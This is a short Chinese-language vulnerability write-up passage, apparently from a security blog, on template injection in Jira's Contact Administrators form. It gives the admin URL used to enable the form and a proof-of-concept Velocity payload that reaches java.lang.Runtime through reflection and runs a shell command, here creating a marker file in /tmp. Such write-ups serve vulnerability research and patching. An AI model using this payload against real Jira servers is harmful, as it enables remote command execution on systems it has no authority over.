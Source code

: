 然后把联系管理员表单开启：

[http://localhost:8080/secure/admin/EditApplicationProperties!default.jspa](http://localhost:8080/secure/admin/EditApplicationProperties!default.jspa)

[![](assets/1708149766-d36869d6e4902d255f9225696a874260.png)](https://xzfile.aliyuncs.com/media/upload/picture/20220515171956-2fbd3248-d430-1.png)

但是后面看了一下，没有正确配置`SMTP`服务会抛出异常，但在连接`SMTP`服务之前漏洞已经触发了

2、poc

```plain
url 路径：/secure/ContactAdministrators!default.jspa 



$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('touch /tmp/success').waitFor()
```
